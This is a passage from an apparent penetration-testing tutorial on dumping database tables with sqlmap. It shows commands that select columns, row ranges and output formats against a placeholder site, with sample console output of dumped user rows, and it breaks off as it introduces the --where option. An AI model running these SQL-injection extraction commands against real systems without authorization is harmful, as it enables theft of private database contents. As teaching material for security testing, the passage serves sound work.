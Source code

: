     [14:07:18] [INFO] table 'testdb.users' dumped to CSV file '/home/user/.local/share/sqlmap/output/www.example.com/dump/testdb/users.csv'

The console output shows that the table is dumped in formatted CSV format to a local file, `users.csv`.

Tip: Apart from default CSV, we can specify the output format with the option `--dump-format` to HTML or SQLite, so that we can later further investigate the DB in an SQLite environment.

### Table/Row Enumeration

When dealing with large tables with many columns and/or rows, we can specify the columns (e.g., only `name` and `surname` columns) with the `-C` option, as follows:

`sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname`

    ...SNIP...
    Database: testdb

    Table: users
    [4 entries]
    +--------+------------+
    | name   | surname    |
    +--------+------------+
    | luther | blisset    |
    | fluffy | bunny      |
    | wu     | ming       |
    | NULL   | nameisnull |
    +--------+------------+

To narrow down the rows based on their ordinal number(s) inside the table, we can specify the rows with the `--start` and `--stop` options (e.g., start from 2nd up to 3rd entry), as follows:

`sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --start=2 --stop=3`

    ...SNIP...
    Database: testdb

    Table: users
    [2 entries]
    +----+--------+---------+
    | id | name   | surname |
    +----+--------+---------+
    | 2  | fluffy | bunny   |
    | 3  | wu     | ming    |
    +----+--------+---------+

### Conditional Enumeration

If there is a requirement to retrieve certain rows based on a known WHERE condition (e.g. `name LIKE 'f%'`), we can use the option `--where`, as follows:
